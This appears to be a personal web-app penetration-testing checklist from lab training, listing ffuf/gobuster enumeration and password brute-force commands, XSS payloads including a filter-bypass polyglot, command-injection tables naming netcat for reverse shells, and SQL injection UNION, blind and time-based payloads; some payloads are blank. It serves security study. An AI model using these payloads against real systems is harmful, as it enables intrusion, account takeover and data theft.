








# Web App Checklist

## Reconnaissance

- [ ]  Robots.txt - locate urls marked to not be shown in search results
- [ ]  Favicon - some icons are default values that are displayed as part of a template. Can be checked here: https://wiki.owasp.org/index.php/OWASP_favicon_database and gathered using curl *url_favicon_path* | md5sum
- [ ]  sitemap.xml - which website files can be seen through search engines
- [ ]  HTTP headers - check for software version information and hosting server info
- [ ]  Discover Framework - looks for clues in source code or other areas that may disclose more information about the website. You can go the the framework’s website to learn more about the framework itself.
- [ ]  GitHub
- [ ]  Automated Discovery
    - [ ]  ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://IP_ADDRESS/FUZZ
    - [ ]  dirb http://IP_ADDRESS/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
    - [ ]  gobuster dir --url http://IP_ADDRESS/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt

## Subdomain Enumeration

 

- [ ]  SSL/TLS Certificates
    - [ ]  https://crt.sh - discover subdomains that have valid ssl/tls certificates. These are publicly accessible logs of every SSL/TLS certificate created for a domain name. The purpose of Certificate Transparency logs is to stop malicious and accidentally made certificates from being used
- [ ]  DNS Bruteforce
    - [ ]  DNS recon tool
    - [ ]  Sublist3r
    - [ ]  Virtual Host
        - [ ]  ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u [http://](http://10.10.132.42)IP_ADDRESS - get size for failed requests
        - [ ]  ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://IP_ADDRESS -fs {size} - use size from previous command run to filter on successful requests
        - [ ]  Some subdomains aren't always hosted in publically accessible DNS results, such as development versions of a web application or administration portals. Instead, the DNS record could be kept on a private DNS server or recorded on the developer's machines in their **/etc/hosts** file (or **c:\windows\system32\drivers\etc\hosts** file for Windows users), which maps domain names to IP addresses.
        
        Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header. We can utilize this host header by making changes to it and monitoring the response to see if we've discovered a new website.
        

## Authentication Bypass

- [ ]  Username Enumeration
    - [ ]  ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://IP_ADDRESS/customers/signup -mr "username already exists"
        - `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists
        - `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example
        - `-d` argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to **FUZZ**. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request
        - `-H` argument is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` so the web server knows we are sending form data.
        - `-u` argument specifies the URL we are making the request to
        - `-mr` argument is the text on the page we are looking for to validate we've found a valid username.
- [ ]  Bruteforce (not always recommended)
    - [ ]  ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://IP_ADDRESS/customers/login -fc 200
        - **U**sing multiple wordlists, we have to specify our own FUZZ keyword. In this instance, we've chosen `W1` for our list of valid usernames and `W2` for the list of passwords we will try. The multiple wordlists are again specified with the `-w` argument but separated with a comma.
        - For a positive match, we're using the `-fc` argument to check for an HTTP status code other than 200.

## LFI/RFI

- [ ]  dot-dot slash attack (../)
- [ ]  Leverage request terminator for bypassing filters (%00) 

    
    
- [ ]  Possible input validation technique

- [ ]  Folders for testing access

    
- [ ]  RFI check

## SSRF

- [ ]  A Full URL is used in a parameter in the address bar

- [ ]  A hidden field in a form that contains a URL

- [ ]  A partial URL such as just the hostname

- [ ]  Only the path of the URL

## XSS

- [ ]  Reflected XSS - Test input fields that display back user input
- [ ]  Stored XSS - Check fields that store data like comments or user profiles
- [ ]  DOM-based XSS - Review client-side JavaScript that manipulates the DOM
- [ ]  Test for XSS in HTTP headers - especially the User-Agent header
- [ ]  Try different encoding methods to bypass filters (URL encoding, HTML encoding)
- [ ]  Check for XSS in file upload functionality - especially in file names and metadata
- [ ]  Test error messages for XSS vulnerabilities
- [ ]  Payloads
    - [ ]  Basic - ``
    - [ ]  Input tag escape -  `">`
    - [ ]  Textarea escape - `</textarea>`
    - [ ]  Javascript code escape - `';alert('Hello');//`
        
        
        
        
        
    - [ ]  String-based detection escape - `<sscriptcript>alert('Hello');</sscriptcript>`
    - [ ]  Img tag escape - `/images/cat.jpg" onload="alert('Hello');`
    - [ ]  **Polyglots:** An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. Example: `jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Hello') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Hello')//>\x3e`
    - [ ]  Dom-based cookie nabber - ``
        - The `</textarea>` tag closes the text area field.
        - The ``closes the JavaScript code block.
    
    ## Race Condition
    
    - [ ]  Check to see if there are some form of “transfers” happening (i.e., payment systems, impressions, account transfers). Test if multiple, simultaneous requests can be made at a time.
    
    ## Command Injection
    
    - [ ]  Tools to leverage
        
        Linux
        
        | **Payload** | **Description** |
        | --- | --- |
        | whoami | See what user the application is running under. |
        | ls | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
        | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
        | sleep | This is another useful payload in testing an application for blind command injection, where the machine does not have `ping` installed. |
        | nc | Netcat can be used to spawn a reverse shell onto the vulnerable application. You can use this foothold to navigate around the target machine for other services, files, or potential means of escalating privileges. |
        
        Windows
        
        | **Payload** | **Description** |
        | --- | --- |
        | whoami | See what user the application is running under. |
        | dir | List the contents of the current directory. You may be able to find files such as configuration files, environment files (tokens and application keys), and many more valuable things. |
        | ping | This command will invoke the application to hang. This will be useful in testing an application for blind command injection. |
        | timeout | This command will also invoke the application to hang. It is also useful for testing an application for blind command injection if the `ping` command is not installed. |
    - [ ]  Encode commands (hex, url, etc.)
    - [ ]  Leverage shell operators (&, &&, ;)
    - [ ]  Leverage code comments (#, //)

## SQL Injection

- [ ]  *value* UNION SELECT {1,2,3} - must do error based checking to determine the total colums
- [ ]  0 UNION SELECT 1,2,database() - check which database we have access to
- [ ]  0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = '*database_name*’
- [ ]  0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = '*table_of_interest’*
- [ ]  0 UNION SELECT 1,2,group_concat(*column_name*,':',*column_name* SEPARATOR ' ') FROM *table of interest*
- [ ]  `' OR 1=1;--`
    * Because 1=1 is a true statement and we've used an **OR** operator, this will always cause the query to return as true, which satisfies the web applications logic that the database found a valid username/password combination and that access should be allowed.

- [ ]  admin123' UNION SELECT 1,2,3 where database() like 's%';— blind based injection used to guess letters of a database
- [ ]  admin123' UNION SELECT SLEEP(5),2;— - times based injection using two columns